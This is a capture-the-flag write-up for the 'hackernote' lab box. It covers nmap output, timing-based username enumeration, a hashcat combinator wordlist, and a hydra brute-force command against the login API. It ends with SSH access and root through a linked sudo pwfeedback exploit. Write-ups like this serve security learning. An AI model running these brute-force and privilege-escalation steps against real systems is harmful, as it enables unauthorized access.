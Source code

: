 # hackernote



## nmap



PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:a6:95:34:62:b0:56:2a:38:15:77:58:f4:f3:6c:ac (RSA)
|   256 6f:18:27:a4:e7:21:9d:4e:6d:55:b3:ac:c5:2d:d5:d3 (ECDSA)
|_  256 2d:c3:1b:58:4d:c3:5d:8e:6a:f6:37:9d:ca:ad:20:7c (ED25519)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Home - hackerNote
8080/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Home - hackerNote
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



## httpenum

the website is vulnerable to time based attack

- if there is a user the website will take significantly longer time to process the password

![image-20200818001045886](hackernote.assets/image-20200818001045886.png)



- user man is valid and other user is invalid
- user man took more than 2 seconds to get the result

we can enumerate the timings to get the username that might be valid



![image-20200818001306618](hackernote.assets/image-20200818001306618.png)

- using that technique we got a user with significantly more time than others

![image-20200818001612197](hackernote.assets/image-20200818001612197.png)

- got the hint for the password its favourite color and a letter.



## exploit



#### hashcat combinator



- hashcat combinator is a great tool for combining wordlist

![image-20200818001946822](hackernote.assets/image-20200818001946822.png)

```
./combinator.bin colors.txt numbers.txt
```

we have a new wordlist which we can use for attacking





#### hydra

![image-20200818000709828](hackernote.assets/image-20200818000709828.png)



````
hydra -l james -P wordlist <ip> http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
````



#### credentials

username	james

password	blue7





## ssh



- after logging in we got our ssh credentials

![image-20200818002125763](hackernote.assets/image-20200818002125763.png)



#### credentials

username 			james

password			 dak4ddb37b



#### shell

![image-20200818002311079](hackernote.assets/image-20200818002311079.png)





## post



- now we need to get root
- sudo -l does not get us anything 
- but we see astriek when entering password
- condition to make this executable is that we need pwnfeedback enabled

![image-20200818003559178](hackernote.assets/image-20200818003559178.png)



there is a vulnerability called pwnfeedback

[link for the exploit](https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c)

- used gcc to compile the code 
- executed it on remote machine



#### root

![image-20200818011153408](hackernote.assets/image-20200818011153408.png)